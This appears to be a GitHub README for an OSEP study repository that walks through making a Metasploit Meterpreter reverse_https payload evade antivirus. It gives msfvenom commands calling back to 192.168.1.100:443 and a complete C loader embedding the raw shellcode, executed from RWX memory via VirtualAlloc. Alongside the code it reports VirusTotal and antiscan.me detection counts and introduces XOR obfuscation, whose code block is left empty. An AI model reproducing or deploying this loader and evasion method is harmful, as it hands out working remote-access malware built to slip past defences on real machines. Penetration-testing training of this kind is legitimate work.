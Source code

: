 ShellCoder
=======

- I use this repository for my OSEP certification
- Thanks to https://github.com/EnginDemirbilek/Flip
- Thanks to https://github.com/9emin1/charlotte
- Thanks to https://github.com/Arno0x/ShellcodeWrapper

The purpose of this document is to check the ability of the antivirus to detect a meterpreter binary. For this purpose I
will try different methods described in the mentioned PDF. Some of these methods may have become obsolete by antivirus
updates since this document was published in 2014. However, it is also possible that some evasion techniques are still
effective against current antiviruses. Therefore, it will be interesting to test these different methods and see if
current antivirus programs can detect a meterpreter payload. It is indeed quite likely that most modern antivirus
programs will be able to detect the meterpreter binary, given that it is known to be used in computer attacks. However,
it is important to note that the detection of software as malicious does not necessarily mean that it will be blocked or
removed by the antivirus. It is possible that an antivirus program may detect the meterpreter binary but not have the
ability to remove it, or ask the user for confirmation before doing so. It is also possible that some versions of
meterpreter are more effective than others at going undetected by antivirus software. In any case, it is important to
continue testing and evaluating the ability of antivirus software to detect this kind of software in order to ensure the
security of our systems.

Step 1
______

- I start my test with a simple binary generated by metasploit.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f exe -o step1.exe
```

Without surprise 53 AV out of 71 detect
it :[Link VirusTotal](https://www.virustotal.com/gui/file/e787031fe8dcc781680e35184f67ea767a08cbab41de70ed3ae04c3f106887da?)

![Step1](doc/step1.png "Simple meterpreter payload")


Step 2
------

It is possible that embedding the meterpreter binary in a script written in C may affect the way it is detected by
antivirus software. This is because some antivirus software may be more likely to detect malware when it is embedded in
scripts or programs, rather than when it is present as independent executable files. The .exe files generated by
metasploit have a signature that is very well known to antivirus programs, so the detection rate is very high. It is
also possible that the use of different programming languages can make the binary more difficult to detect for some
antivirus programs, because of the way they parse the code. It will be interesting to see how the results of these tests
differ from those obtained previously and to determine whether the integration of the binary in a C script has an impact
on its detection by antivirus software.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f c
```

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    "\x52\x51\x48\x31\xd2\x56\x65\x48\x8b\x52\x60\x48\x8b\x52"
    "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31\xc9\x48\x0f"
    "\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
    "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
    "\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
    "\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
    "\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
    "\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
    "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
    "\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
    "\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
    "\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
    "\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
    "\x4b\xff\xff\xff\x5d\x48\x31\xdb\x53\x49\xbe\x77\x69\x6e"
    "\x69\x6e\x65\x74\x00\x41\x56\x48\x89\xe1\x49\xc7\xc2\x4c"
    "\x77\x26\x07\xff\xd5\x53\x53\x48\x89\xe1\x53\x5a\x4d\x31"
    "\xc0\x4d\x31\xc9\x53\x53\x49\xba\x3a\x56\x79\xa7\x00\x00"
    "\x00\x00\xff\xd5\xe8\x0d\x00\x00\x00\x31\x39\x32\x2e\x31"
    "\x36\x38\x2e\x31\x2e\x32\x36\x00\x5a\x48\x89\xc1\x49\xc7"
    "\xc0\xbb\x01\x00\x00\x4d\x31\xc9\x53\x53\x6a\x03\x53\x49"
    "\xba\x57\x89\x9f\xc6\x00\x00\x00\x00\xff\xd5\xe8\x4d\x00"
    "\x00\x00\x2f\x39\x79\x38\x77\x41\x54\x63\x56\x56\x54\x59"
    "\x2d\x5f\x44\x5f\x2d\x58\x55\x42\x47\x45\x51\x6b\x61\x71"
    "\x43\x34\x77\x33\x6f\x6a\x6c\x61\x68\x31\x32\x56\x4a\x38"
    "\x42\x73\x4c\x43\x42\x51\x32\x6b\x62\x63\x49\x34\x2d\x6e"
    "\x31\x4c\x68\x36\x55\x2d\x42\x4c\x4d\x78\x42\x35\x49\x5a"
    "\x56\x38\x42\x62\x6d\x47\x36\x64\x00\x48\x89\xc1\x53\x5a"
    "\x41\x58\x4d\x31\xc9\x53\x48\xb8\x00\x32\xa8\x84\x00\x00"
    "\x00\x00\x50\x53\x53\x49\xc7\xc2\xeb\x55\x2e\x3b\xff\xd5"
    "\x48\x89\xc6\x6a\x0a\x5f\x48\x89\xf1\x6a\x1f\x5a\x52\x68"
    "\x80\x33\x00\x00\x49\x89\xe0\x6a\x04\x41\x59\x49\xba\x75"
    "\x46\x9e\x86\x00\x00\x00\x00\xff\xd5\x4d\x31\xc0\x53\x5a"
    "\x48\x89\xf1\x4d\x31\xc9\x4d\x31\xc9\x53\x53\x49\xc7\xc2"
    "\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x75\x1f\x48\xc7\xc1\x88"
    "\x13\x00\x00\x49\xba\x44\xf0\x35\xe0\x00\x00\x00\x00\xff"
    "\xd5\x48\xff\xcf\x74\x02\xeb\xaa\xe8\x55\x00\x00\x00\x53"
    "\x59\x6a\x40\x5a\x49\x89\xd1\xc1\xe2\x10\x49\xc7\xc0\x00"
    "\x10\x00\x00\x49\xba\x58\xa4\x53\xe5\x00\x00\x00\x00\xff"
    "\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda"
    "\x49\xc7\xc0\x00\x20\x00\x00\x49\x89\xf9\x49\xba\x12\x96"
    "\x89\xe2\x00\x00\x00\x00\xff\xd5\x48\x83\xc4\x20\x85\xc0"
    "\x74\xb2\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd2\x58\xc3"
    "\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff\xd5";

    void *valloc = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(valloc, buf, sizeof buf);
    ((void(*)())valloc)();
}
```

I will now use antiscan.me, a service that offers a similar scan to VirusTotal, but uses fewer antivirus vendors. One of
the advantages of this service is that it does not release the samples it scans, which can be convenient if you don't
want the binary to be made public. The detection rate has risen to 9 out of 26, so we can do better.

- [Link Antisan](https://antiscan.me/scan/new/result?id=JZP5rM62ybAI)

![Step1](doc/step2.png "Meterpreter payload inside C code")


Step 3
------

It is possible that antivirus programs will still detect the executable even if it has been embedded in a C script,
because the meterpreter shellcode itself contains signatures that are known to antivirus programs. To try to get around
this, you can XOR the shellcode before embedding it in the C script. XOR (or "exclusive OR") is a simple encryption
operation that can be used to hide the shellcode signatures. However, it is important to note that this technique can be
easily bypassed by antivirus software and does not guarantee that the binary will remain undetectable. It will be
interesting to see if the use of an XOR on the shellcode has an impact on the detection of the binary by antivirus
software and to compare the results obtained with and without this technique.


```c

```
